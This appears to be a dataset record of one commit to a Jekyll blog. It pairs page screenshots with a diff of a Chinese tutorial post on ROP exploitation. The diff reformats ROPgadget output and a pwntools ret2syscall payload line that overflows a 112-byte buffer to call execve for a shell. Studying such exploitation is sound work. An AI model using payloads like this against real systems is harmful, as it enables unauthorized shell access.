

Before and after one commit to tearorca/tearorca.github.io, a Jekyll site: the page built from _posts/2018-12-7-ROP的运用.md, in a window 1280 px wide and 900 px high, scrolled down 4190 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; comment, search, counter and statistics services are not loaded.

```diff
--- a/_posts/2018-12-7-ROP的运用.md
+++ b/_posts/2018-12-7-ROP的运用.md
@@ -160,25 +160,25 @@ gadgets 最后使用 ret 来再次控制程序执行流程的原因。具体寻
 
 可以找到对应的地址，此外，还有 int 0x80 的地址，如下
 
-~/Desktop$ ROPgadget --binary rop --only 'int'
+	~/Desktop$ ROPgadget --binary rop --only 'int'
 
-Gadgets information
+	Gadgets information
 
-============================================================
+	============================================================
 
-0x08049421 : int 0x80
+	0x08049421 : int 0x80
 
-0x080938fe : int 0xbb
+	0x080938fe : int 0xbb
 
-0x080869b5 : int 0xf6
+	0x080869b5 : int 0xf6
 
-0x0807b4d4 : int 0xfc
+	0x0807b4d4 : int 0xfc
 
 同时，也找到对应的地址了。
 
 下面就是对应的 payload，其中 0xb 为 execve 对应的系统调用号。
 
-payload = flat(['A' \* 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh,
+payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh,
 int_0x80])
 
 现在我们还要拿到的就是溢出的位置，溢出填充空间为112.
```
